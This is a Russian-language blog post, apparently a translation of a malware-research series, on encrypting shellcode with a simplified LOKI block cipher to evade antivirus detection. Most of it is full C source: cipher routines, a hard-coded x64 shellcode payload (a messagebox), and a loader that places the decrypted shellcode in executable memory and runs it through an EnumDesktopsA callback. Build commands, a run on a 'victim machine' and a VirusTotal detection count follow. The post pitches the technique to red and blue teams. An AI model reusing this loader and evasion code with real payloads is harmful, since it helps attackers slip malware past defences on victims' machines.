





\newpage
\subsection{92. исследование вредоносного ПО и криптографии - часть 1 (29): Шифрование полезной нагрузки с помощью LOKI. Простой пример на C.}

﷽

{width="80%"}     

Этот пост является результатом моего собственного исследования методов обхода антивирусных движков с помощью шифрования полезной нагрузки другим способом: блочным шифром LOKI с симметричным ключом. Как обычно, исследуя различные криптоалгоритмы, я решил проверить, что будет, если использовать этот метод для шифрования/дешифрования полезной нагрузки.    

### LOKI

Лоури Браун, Йозеф Пепржик и Дженнифер Сиберри, три австралийских криптографа, впервые опубликовали *LOKI (LOKI89)* в `1990` году под названием *"LOKI"*. LOKI89 был представлен на европейский проект RIPE для рассмотрения, но не был выбран. LOKI предлагался как потенциальная альтернатива DES.     

### практический пример

Давайте реализуем это. Алгоритм LOKI использует `64-битный` блок и `64-битный` ключ. Функция блочного шифрования LOKI выполняет шифрование через несколько раундов структуры Фейстеля. Ниже представлено подробное пошаговое объяснение работы этой функции:    

```cpp
void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | 
  ((u32)block[1] << 16) | ((u32)block[2] << 8) | 
  (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
    u32 temp = right;
    right = left ^ (right + ((u32)key[round % KEY_SIZE]));
    left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

`64-битный` блок делится на две `32-битные` половины: левую и правую:

```cpp
u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
((u32)block[2] << 8) | (u32)block[3];
u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
((u32)block[6] << 8) | (u32)block[7];
```

Левая половина (`left`) формируется путем объединения первых четырех байтов блока.
Правая половина (`right`) формируется путем объединения последних четырех байтов блока.

Процесс шифрования включает несколько раундов (`16 раундов` в моей реализации):

```cpp
for (int round = 0; round < ROUNDS; round++) {
  u32 temp = right;
  right = left ^ (right + ((u32)key[round % KEY_SIZE]));
  left = temp;
}
```

Для каждого раунда:

- `temp` сохраняет текущее значение `right`.
- `right` обновляется результатом `XOR` между `left` и суммой `right` и значением ключа. Значение ключа выбирается циклически с помощью `key[round % KEY_SIZE]`.
- `left` обновляется до предыдущего значения `right`, сохраненного в `temp`.

Наконец, реконструируем логику зашифрованного блока:

```cpp
block[0] = (left >> 24) & 0xFF;
block[1] = (left >> 16) & 0xFF;
block[2] = (left >> 8) & 0xFF;
block[3] = left & 0xFF;
block[4] = (right >> 24) & 0xFF;
block[5] = (right >> 16) & 0xFF;
block[6] = (right >> 8) & 0xFF;
block[7] = right & 0xFF;
```

После завершения всех раундов `left` и `right` половины объединяются обратно в исходный блок.
32-битные `left` и `right` значения разделяются на байты и сохраняются обратно в массив `block`.

В моем примере эта функция обеспечивает упрощенное представление процесса шифрования LOKI, фокусируясь на основных операциях разделения, обработки и повторного объединения данных.

Также по аналогии реализуем логику расшифровки:

```cpp
void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

Затем нам понадобится функция `loki_encrypt_shellcode` для шифрования заданного шеллкода с использованием блочного шифра LOKI:

```cpp
void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

Как это работает?

Цикл по шеллкоду в блоках `8-byte`:

```cpp
for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);
}
```

Для каждого блока `8-byte` функция `loki_encrypt` вызывается с текущим блоком и ключом шифрования. `shellcode + i * BLOCK_SIZE` вычисляет адрес текущего блока `8-byte` в шеллкоде.

После обработки всех полных блоков `8-byte` функция проверяет, остались ли какие-либо байты, которые не образуют полный блок.

```cpp
int remaining = shellcode_len % BLOCK_SIZE;
if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
}
```

Обратите внимание, что, как обычно, заполняющий массив pad размером `8 байт` инициализируется с `0x90` (инструкция `NOP` в сборке `x86`).

Эта функция гарантирует, что весь шеллкод, независимо от его длины, будет зашифрован с использованием алгоритма LOKI с правильной обработкой любых частичных блоков.

Затем по аналогии создаем логику расшифровки:

```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

Окончательный полный исходный код для запуска полезной нагрузки выглядит следующим образом (`hack.c`):    

```cpp
/*
* hack.c
* encrypt/decrypt payload via LOKI
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 8

typedef uint32_t u32;
typedef uint8_t u8;

u8 key[KEY_SIZE] = {0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF};

void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
    u32 temp = right;
    right = left ^ (right + ((u32)key[round % KEY_SIZE]));
    left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  loki_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  loki_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Как видите, для запуска полезной нагрузки я использовал трюк [EnumDesktopsA](https://cocomelonc.github.io/malware/2024/06/12/malware-trick-39.html).

Также, как обычно, для простоты использовал полезную нагрузку meow-meow messagebox:     

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

Для проверки корректности добавлена логика сравнения и вывода.   

### демонстрация

Давайте посмотрим, как все работает. Компилируем (на моей `kali` машине):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}      

Затем просто запускаем на машине жертвы (`Windows 11 x64` в моем случае):    

```powershell
.\hack.exe
```

{width="80%"}      

Как видно, все сработало идеально! =^..^=     

Рассчитаем энтропию по Шеннону:    

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}      

Наша полезная нагрузка находится в `.text` секции.    

Загрузим `hack.exe` на VirusTotal:     

{width="80%"}      

[https://www.virustotal.com/gui/file/04bede4d03cd8f610fa90c4d41e1439e3adcd66069a378b9db4f94e62a7572cd/detection](https://www.virustotal.com/gui/file/04bede4d03cd8f610fa90c4d41e1439e3adcd66069a378b9db4f94e62a7572cd/detection)    

**Как видно, только 27 из 73 антивирусных движков обнаруживают наш файл как вредоносный.**     

Но этот результат связан не с шифрованием полезной нагрузки, а с вызовами некоторых Windows API, таких как `VirtualAlloc`, `RtlMoveMemory` и `EnumDesktopsA`.      

Biham и Shamir успешно применили дифференциальный криптоанализ для расшифровки LOKI с `11` или менее раундами, что превышает скорость методов перебора.      

Надеюсь, этот пост окажется полезным для исследователей вредоносного ПО, C/C++ программистов, повысит осведомленность синих команд об этой интересной технике шифрования и добавит оружие в арсенал красных команд.

[LOKI](https://en.wikipedia.org/wiki/LOKI)     
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-07-16-malware-cryptography-29)    
